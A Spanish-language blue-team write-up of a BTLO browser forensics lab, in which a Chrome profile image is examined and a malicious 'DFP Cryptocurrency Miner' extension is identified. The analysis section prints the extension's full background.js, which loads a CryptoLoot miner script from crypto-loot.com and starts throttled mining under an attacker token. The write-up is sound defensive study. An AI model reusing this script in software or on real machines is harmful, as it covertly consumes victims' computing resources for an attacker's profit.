










# BTLO Writeup: Browser Forensics - Cryptominer

> **Plataforma:** Blue Team Labs Online (BTLO)  
> **Categoría:** Digital Forensics  
> **Dificultad:** Fácil  
> **Herramientas utilizadas:** FTK Imager, BrowsingHistoryView (NirSoft)

---

## Escenario

> *Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.*

El SOC detectó tráfico relacionado con minería de criptomonedas desde un PC recién unido a la red. El equipo de respuesta a incidentes recopiló los datos del navegador mediante **FTK Imager**, generando un archivo `.ad1`. El objetivo es investigar la actividad de cryptomining desde el navegador.

---

## Herramientas

| Herramienta | Uso |
|---|---|
| **Exterro FTK Imager 4.7.3.81** | Montar y explorar el archivo de evidencia `.ad1` |
| **BrowsingHistoryView (NirSoft)** | Analizar el historial de navegación exportado |
| **Notepad / Editor de texto** | Leer los archivos `manifest.json` y `background.js` |

---

## Metodología e Investigación

### 1. Carga del archivo de evidencia en FTK Imager

Se abre el archivo `browserdata.ad1` con **FTK Imager**. Al cargarlo, se navega por el árbol de evidencia:

```
\\PHYSICALDRIVE0:Partition 1 > [root] > Users
```

La estructura del disco expone la carpeta `Users`, que es el punto de partida de la investigación.



---

### 2. Localización de los datos del navegador Chrome

Navegando por el árbol de directorios se llega a la ruta del perfil de Chrome del usuario `IEUser`:

```
Users\IEUser\AppData\Local\Google\Chrome\User Data\
```

Se identifican dos perfiles activos:

- **Default**
- **Profile 1**

Esto indica que el usuario tenía dos perfiles de Chrome en uso.



---

### 3. Exportación de datos para análisis con BrowsingHistoryView

Se exportan los archivos del perfil de Chrome a una ruta local:

```
C:\Users\diego\Desktop\Users\IEUser\AppData\Local\Google\Chrome\User Data
```



Posteriormente, se carga esa ruta en **BrowsingHistoryView**, configurándola para leer desde la carpeta de perfiles especificada, con un rango de fechas amplio para no perder registros.



---

### 4. Análisis del historial de navegación

BrowsingHistoryView carga **296 entradas** del historial. Entre los hallazgos relevantes se identifican:

- Búsquedas repetidas de `internship` en Google
- Visitas a YouTube (Marshmello, Ed Sheeran, Imagine Dragons)
- **Visitas a la Chrome Web Store**, concretamente a una extensión llamada **"Earth in Space"**
- Búsquedas de `google chrome themes` y visitas a sitios como `digitaltrends.com`

La entrada más relevante del historial:

| Campo | Valor |
|---|---|
| **Title** | Earth in Space - Chrome Web Store |
| **Visit Time** | 09/02/2021 16:31:29 |
| **Web Browser** | Chrome |
| **User Profile** | IEUser |
| **History File** | `C:\Users\...\Chrome\User Data\Default\History` |



Esto indica que el usuario buscó e instaló una extensión desde la Chrome Web Store, lo que lleva a la siguiente fase de la investigación.

---

### 5. Inspección de las extensiones instaladas en FTK Imager

Desde el archivo `.ad1` se navega a:

```
Default > Extensions
```

Se listan múltiples extensiones con IDs en formato hash. Se inspecciona el `manifest.json` de cada una para identificarlas.



---

#### Extensión legítima: "Earth in Space" (tema de Atavi)

En la extensión con ID `iiihlpikmpijdopbaegjibnd...`, el `manifest.json` revela:

```json
{
  "app": {
    "launch": {
      "web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
    }
  },
  "short_name": "Awesome theme for Atavi.com",
  "default_locale": "ru"
}
```



Esta extensión es un tema visual legítimo instalado intencionalmente por el usuario.

---

#### Extensión maliciosa: "DFP Cryptocurrency Miner"

En la extensión con ID `egnfmleidkolminhjlkaomjefheafbbb`, el `manifest.json` es el hallazgo clave:

```json
{
  "name": "DFP Cryptocurrency Miner",
  "description": "Allows staff members to mine cryptocurrency in the background of their web browser",
  "background": {
    "scripts": ["background.js"]
  },
  "minimum_chrome_version": "9",
  "version": "3"
}
```



**Esta es la extensión maliciosa.** Se disfraza como una herramienta corporativa para "staff members", pero en realidad ejecuta minería de criptomonedas en segundo plano sin el consentimiento del usuario.

---

### 6. Análisis del script malicioso: background.js

El archivo `background.js` fue renombrado a `background.malware` durante el análisis forense, confirmando su naturaleza maliciosa.


Su contenido es el siguiente:

```javascript
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner = new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
    {
        threads: 3,
        autoThreads: false,
        throttle: 0.2,
    }
);
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
    var hashesPerSecond = miner.getHashesPerSecond(20);
    var totalHashes = miner.getTotalHashes(256000000);
    var acceptedHashes = miner.getAcceptedHashes();

    // Output to HTML elements...
}, 1000);
</script>
```



#### Desglose técnico del script

| Elemento | Detalle |
|---|---|
| **Librería usada** | `https://crypto-loot.com/lib/miner.min.js` |
| **Token/Wallet** | `b23efb4650150d5bc5b2de6f05267272cada06d985a0` |
| **Hilos utilizados** | 3 threads |
| **Throttle** | 0.2 → usa el **20% de la CPU** para pasar desapercibido |
| **Eventos monitorizados** | `found` (hash encontrado), `accepted` (hash aceptado por el pool) |

El script carga la librería de **CryptoLoot**, un servicio de cryptojacking similar a Coinhive que permite minar **Monero (XMR)** usando la CPU del navegador de la víctima. El token identifica al atacante como beneficiario de la minería.



> El throttle del 20% es una técnica deliberada para consumir CPU de forma moderada y no alertar al usuario o a las herramientas de monitorización.

---

## Indicadores de Compromiso (IoCs)

| Tipo | Valor |
|---|---|
| **ID de extensión maliciosa** | `egnfmleidkolminhjlkaomjefheafbbb` |
| **Nombre de la extensión** | DFP Cryptocurrency Miner |
| **Script malicioso** | `background.js` |
| **Dominio de minería** | `crypto-loot.com` |
| **Token de minería (wallet)** | `b23efb4650150d5bc5b2de6f05267272cada06d985a0` |
| **Usuario afectado** | IEUser |
| **Fecha estimada de instalación** | 10/02/2021 |

---

## Conclusiones

1. El usuario visitó la Chrome Web Store buscando temas visuales para su navegador, instalando la extensión legítima **"Earth in Space"**.
2. En paralelo, tenía instalada la extensión **"DFP Cryptocurrency Miner"**, que ejecutaba minería silenciosa de criptomonedas en segundo plano usando la librería de **CryptoLoot**.
3. El script configuraba **3 hilos** con un **throttle del 20%**, buscando consumir CPU de forma discreta para no levantar sospechas inmediatas.
4. El tráfico detectado por el SOC provenía de las conexiones a `crypto-loot.com` generadas automáticamente por esta extensión al abrir Chrome.
5. La extensión maliciosa se camuflaba con un nombre corporativo ("staff members") para parecer legítima ante el usuario.

---

## Lecciones aprendidas

- Las extensiones de navegador son un vector de ataque frecuentemente subestimado.
- Herramientas como **FTK Imager** permiten el análisis forense de imágenes de disco sin modificar la evidencia original.
- **BrowsingHistoryView** es útil para correlacionar el historial de navegación con la instalación de extensiones sospechosas.
- Revisar los archivos `manifest.json` de las extensiones instaladas es una técnica eficaz para identificar comportamientos maliciosos.

---

*Writeup realizado con fines educativos en el contexto del laboratorio BTLO: Browser Forensics - Cryptominer.*
